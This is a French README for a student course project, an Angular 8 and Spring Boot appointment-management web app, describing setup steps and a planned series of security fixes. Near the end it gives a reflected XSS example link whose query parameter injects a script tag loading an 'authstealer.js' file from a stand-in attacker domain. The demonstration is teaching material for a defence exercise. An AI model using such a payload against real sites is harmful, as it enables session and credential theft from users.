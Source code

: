# UE_CyberApp_Ferretti

## Introduction

Ce document est un rendu/mode d'emploir pour le projet d'application web de l'UE CyberApp de l'IMT Atlantique. On commence par présenter la version coeur de notre application qui repose sur Angular 8 et Spring Boot puis on ajoute progressivement trois étapes de sécurisation avec tout d'abord la gestion des attaque xss côté springboot puis un ajout d'une mthode d'authentification avec okta et enfin la gestion des certificat pour établir une connexion sécurisée.

## L'application

Cette application a été développé en s'appuyant sur différent tutorials et cours sur Angular 8 et spring-Boot, l'objectif est de crée un système simple de gestion de rendez-vous pour une secrétaire. On limite notre application à un système de savegarde/édition/suppression des rendez-vous.

Les déscriptions ci-dessous repose sur la Version_1 de ce git.

### Le back-end avec Spring-Boot

#### Pour lancer l'application, on fait un run maven build sur eclipse et on choisi spring-boot:run

On commence par générer un spring-boot de base dans la version voulue ce qui nous donne un squelette d'application web sur lequelle on rajoute nos couche voulue.

Le Spring initializr permet de créer cette base :

![alt text](https://github.com/Sheecss/Ue_CyberApp_Ferretti/blob/main/img/spring%20initializr.PNG "Logo Title Text 1")

Les dépendences principales sont : 
 
![alt text](https://github.com/Sheecss/Ue_CyberApp_Ferretti/blob/main/img/Capture.PNG "Logo Title Text 1")

Une fois cette première étape effectuée, on rajoute notre couche personelle avec la classe Rdv que nous utiliserons. On peut aussi étendre ce système avec la création de classe Patient et Docteur mais pour montrer nos ajouts, cette base suffit :


![alt text](https://github.com/Sheecss/Ue_CyberApp_Ferretti/blob/main/img/classe_rdv.PNG "Logo Title Text 1")

Une fois nos items créés, on va ajoutés la possibilité de gérer une base de données avec un controller et un repository qui nous permettra de stocker nos rdv. Ce controller nous permet de mapper sur une url http://localhost:8080/rdv-liste qui contiendra une liste des rdvs que l'on récupérera sur notre interface angular.

![alt text](https://github.com/Sheecss/Ue_CyberApp_Ferretti/blob/main/img/rdvcontroller.PNG "Logo Title Text 1")

On aura sur l'url http://localhost:8080/rdvs, l'ensemble de nos rdvs en format json :

![alt text](https://github.com/Sheecss/Ue_CyberApp_Ferretti/blob/main/img/rdv_json.PNG "Logo Title Text 1")

### Le front-end avec Angular 8

#### Pour lancer l'application, on fait un run ng serve dans le répertoire Version_X/client

#### Pour notre partie Angular, en plus des composants habituel, on installe le package suivant : npm install --save ngx-mat-datetime-picker@2.0

On commence par créer le service rdv qui va gérer l'ajout et la récupération des rdvs, pour cela on utilise les mapping fait sous java ce qui donne :

![alt text](https://github.com/Sheecss/Ue_CyberApp_Ferretti/blob/main/img/rdv_service.PNG "Logo Title Text 1")

On met ensuite en place la partie affichage et selection de la liste des rdvs en utilisant des bouton cliquable qui renvoie ensuite vers al page d'édition de l'item voulue. On ajoute aussi un bouton Add :

# Mettre Image

Enfin, on crée le formulaire qui nous permet de modifier et ajouter des rdvs, on utilise ngModel pour remplir les cases avec les vgaleurs actuelles en cas de modification. On peut aussi Supprimer et retourner en arriere :

# Mettre Image

## Problème de vulnérabilité XSS côté SpringBoot :

Si on imagine un problème de pishing quelconque qui nous conduit à cliquer sur un lien frauduleux : [I'm an fraudulent link](http://localhost:8080/rdvs?q=puppies%3Cscript%20src=%22http://mallorysevilsite.com/authstealer.js%22%3E%3C/script%3E)

On voit que springboot permet d'acceder à cette url :

![alt text](https://github.com/Sheecss/Ue_CyberApp_Ferretti/blob/main/img/ex_xss.PNG "Logo Title Text 1")

